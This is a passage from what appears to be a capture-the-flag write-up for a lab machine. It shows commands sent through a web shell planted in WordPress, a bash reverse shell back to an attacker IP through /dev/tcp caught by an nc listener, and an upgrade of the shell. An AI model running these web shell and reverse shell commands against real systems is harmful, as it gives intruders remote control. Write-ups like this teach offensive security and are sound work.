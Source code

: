 It works.

### Shell

To get a shell, I’ll change the data into a POST request and have `curl` url-encode it:

```

oxdf@hacky$ curl -k https://phoenix.htb/wp-admin/cmd.phtml --data-urlencode 'cmd=id'
uid=1001(wp_user) gid=1001(wp_user) groups=1001(wp_user)

```

Now I’ll replace `id` with a reverse shell. On running, it hangs:

```

oxdf@hacky$ curl -k https://phoenix.htb/wp-admin/cmd.phtml --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'

```

But there’s a shell at `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.149 51944
bash: cannot set terminal process group (818): Inappropriate ioctl for device
bash: no job control in this shell
wp_user@phoenix:~/wordpress/wp-admin$ 

```

I’ll upgrade my shell using `script`:

```

wp_user@phoenix:~/wordpress/wp-admin$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
wp_user@phoenix:~/wordpress/wp-admin$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
wp_user@phoenix:~/wordpress/wp-admin$

```

## Shell as editor

### Enumeration
